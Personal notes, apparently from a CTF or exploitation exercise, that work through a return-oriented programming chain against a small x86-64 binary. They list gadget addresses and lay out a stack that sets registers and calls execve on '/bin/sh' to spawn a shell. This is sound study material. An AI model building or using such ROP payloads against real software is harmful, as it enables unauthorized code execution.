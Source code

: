 Potential RBP solution:
	Use 
	Then call `4005ea` to restore rbp and then move to rax
		`0x00000000004005ea : mov rbp, rsp ; call rax`
	Or will that just mess everything up? 
		Or maybe I don't have to worry because, while it does get pushed to the stack, it gets overwritten shortly after
			Gonna ignore the problem and come back to it if it becomes an issue

# Payload Building
To build my payload, first I'll want to determine what my stack should look like
### Stack Model
#### Gadgets:
A: `0x000000000040062a`
	`push rbp ; mov rbp, rsp ; pop rdi ; ret`
	Stack Data: `0x00400708`
B: `0x0000000000400632`
	`push rbp ; mov rbp, rsp ; pop rsi ; ret`
	Stack Data: `0x00`
C: `0x000000000040063a`
	`push rbp ; mov rbp, rsp ; pop rdx ; ret`
	Stack Data: `0x00`
D: `0x0000000000400642`
	`push rbp ; mov rbp, rsp ; pop rax ; ret`
	Stack Data: `0x3b`
E: `0x0000000000400621`
	`push rbp ; mov rbp, rsp ; syscall`

Wait, aren't all of these going to push rbp and then just pop THAT value into the register I want
#### Alternative (probably better?) Gadgets:
A: `0x000000000040062e`
	`pop rdi ; ret`
	Stack Data: `0x00400708`
B: `0x0000000000400636`
	`pop rsi ; ret`
	Stack Data: `0x00`
C: `0x000000000040063e`
	`pop rdx ; ret`
	Stack Data: `0x00`
D: `0x0000000000400646`
	`pop rax ; ret`
	Stack Data: `0x3b`
E: `0x0000000000400625`
	`syscall`
F: `0x00000000004004a9`
	`ret`
#### Stack:
```
  retAddr(main) --> 0x40062e    // Addr(A) --> pop rdi ; ret
		 rsp(A) --> 0x400708    // Addr('/bin/sh')
     retAddr(A) --> 0x400636    // Addr(B) --> pop rsi ; ret
		 rsp(B) --> 0x00
     retAddr(B) --> 0x40063e    // Addr(C) --> pop rdx ; ret
		 rsp(C) --> 0x00
     retAddr(C) --> 0x400646    // Addr(D) --> pop rax ; ret
		 rsp(D) --> 0x3b        // execve
     retAddr(D) --> 0x400625    // Addr(E) --> syscall
     retAddr(E) --> 0x4004a9    // Addr(F) --> ret
```
